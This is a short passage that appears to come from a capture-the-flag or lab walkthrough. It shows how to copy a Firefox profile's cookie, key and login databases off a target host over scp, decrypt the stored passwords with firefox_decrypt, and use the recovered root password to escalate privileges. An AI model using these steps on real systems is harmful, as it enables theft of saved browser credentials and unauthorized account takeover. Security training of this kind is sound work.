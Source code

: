 ```shell
# remote
cp cookies.sqlite key4.db cert9.db logins.json profile/

# local
scp -r elliot@target:/home/elliot/.mozilla/firefox/esmhp32w.default-default/profile ./
```
- we have to get `cookies.sqlite`, `key4.db`, `cert9.db`, `logins.json`

```shell
python3 firefox_decrypt/firefox_decrypt.py profile
2025-09-10 16:24:43,783 - WARNING - profile.ini not found in profile
2025-09-10 16:24:43,783 - WARNING - Continuing and assuming 'profile' is a profile location

Website:   https://localhost:10000
Username: 'root'
Password: 'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'
```
- Then we can decrypt the password using `firefox_decrypt`.

```shell
# remote
su root
Password: S8Y389KJqWpJuSwFqFZHwfZ3GnegUa
```
